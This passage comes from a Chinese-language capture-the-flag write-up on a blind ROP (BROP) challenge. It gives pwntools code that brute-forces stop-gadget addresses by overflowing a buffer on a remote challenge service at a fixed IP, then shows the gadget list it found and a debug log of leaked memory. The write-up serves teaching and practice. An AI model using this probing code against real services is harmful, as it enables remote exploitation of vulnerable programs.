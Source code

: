 ```cpp
	vul();
}
```

用 `objdump` 看反汇编基本可以知道 `.text` 段是从 `0x400500` 开始，到将近 `0x400800` 结束。我们要的通用 gadget 在 `__libc_csu_init` 中，就直接尝试从 `0x400600` 开始爆破：

```python
def get_stop_gadget(offset):
    stop_gadget = 0x400000 + 0x600
    stop_gadget_list = []
    while True:
        if stop_gadget > 0x400800:
            return stop_gadget_list
        try:
            p = remote('34.92.37.22', 10000)
            payload = 'A' * offset + p64(stop_gadget)
            p.sendafter('pwn!\n', payload)
            p.recv()
            p.close()
            success('Founded! stop_gadget = ' + hex(stop_gadget))
            stop_gadget_list.append(stop_gadget)
            stop_gadget = stop_gadget + 1
        except Exception:
            stop_gadget = stop_gadget + 1
            p.close()
# [0x4006ce, 0x4006cf, 0x4006dd, 0x4006e2, 0x4006e7, 0x4006ec, 0x4006f1, 0x4006f6, 0x400705, 0x40070a, 0x40070f, 0x400714, 0x400776]
```

拿到了一堆地址，跟据返回地址可以判断第一个肯定是函数开始的地址。后面的应该都是函数中的地址。在一个地址可以看到很多奇怪的输出：

```
[DEBUG] Received 0x1b bytes:
    'Welcome to this blind pwn!\n'
[DEBUG] Sent 0x30 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000020  41 41 41 41  41 41 41 41  ec 06 40 00  00 00 00 00  │AAAA│AAAA│··@·│····│
    00000030
[*] Switching to interactive mode
[DEBUG] Received 0x100 bytes:
    00000000  57 65 6c 63  6f 6d 65 20  74 6f 20 74  68 69 73 20  │Welc│ome │to t│his │
    00000010  62 6c 69 6e  64 20 70 77  6e 21 0a 00  47 6f 6f 64  │blin│d pw│n!··│Good│
    00000020  62 79 65 21  0a 00 00 00  01 1b 03 3b  40 00 00 00  │bye!│····│···;│@···│
    00000030  07 00 00 00  44 fd ff ff  8c 00 00 00  a4 fd ff ff  │····│D···│····│····│
    00000040  5c 00 00 00  9a fe ff ff  b4 00 00 00  bf fe ff ff  │\···│····│····│····│
    00000050  d4 00 00 00  02 ff ff ff  f4 00 00 00  54 ff ff ff  │····│····│····│T···│
    00000060  14 01 00 00  c4 ff ff ff  5c 01 00 00  14 00 00 00  │····│····│\···│····│
    00000070  00 00 00 00  01 7a 52 00  01 78 10 01  1b 0c 07 08  │····│·zR·│·x··│····│
    00000080  90 01 07 10  14 00 00 00  1c 00 00 00  40 fd ff ff  │····│····│····│@···│
    00000090  2a 00 00 00  00 00 00 00  00 00 00 00  14 00 00 00  │*···│····│····│····│
    000000a0  00 00 00 00  01 7a 52 00  01 78 10 01  1b 0c 07 08  │····│·zR·│·x··│····│
    000000b0  90 01 00 00  24 00 00 00  1c 00 00 00  b0 fc ff ff  │····│$···│····│····│
    000000c0  50 00 00 00  00 0e 10 46  0e 18 4a 0f  0b 77 08 80  │P···│···F│··J·│·w··│
    000000d0  00 3f 1a 3b  2a 33 24 22  00 00 00 00  1c 00 00 00  │·?·;│*3$"│····│····│
    000000e0  44 00 00 00  de fd ff ff  25 00 00 00  00 41 0e 10  │D···│····│%···│·A··│
    000000f0  86 02 43 0d  06 60 0c 07  08 00 00 00  1c 00 00 00  │··C·│·`··│····│····│
    00000100
Welcome to this blind pwn!
\x00Goodbye!
```